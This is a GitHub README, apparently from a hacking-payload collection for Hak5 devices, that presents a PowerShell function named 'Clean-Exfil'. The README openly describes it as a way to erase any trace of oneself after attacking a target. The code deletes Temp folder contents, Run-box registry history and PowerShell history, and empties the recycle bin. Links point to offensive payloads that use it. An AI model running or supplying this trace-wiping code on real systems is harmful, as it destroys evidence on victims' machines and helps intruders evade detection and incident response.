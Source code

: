 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Clean-Exfil

## Description

This function is to erase any trace of you after wreaking havok on your target 

## The Function

### [Clean-Exfil] 

You will Delete contents of Temp folder, Delete run box history, Delete powershell history, and Deletes contents of recycle bin

```
function Clean-Exfil { 

# empty temp folder
rm $env:TEMP\* -r -Force -ErrorAction SilentlyContinue

# delete run box history
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /va /f

# Delete powershell history
Remove-Item (Get-PSreadlineOption).HistorySavePath

# Empty recycle bin
Clear-RecycleBin -Force -ErrorAction SilentlyContinue

}
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
(Examples of script that have used your function) - delete this line
Listed below are payloads that have used one of these functions:

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)

[ET-Phone-Home](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ET-Phone-Home)

[AcidBurn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
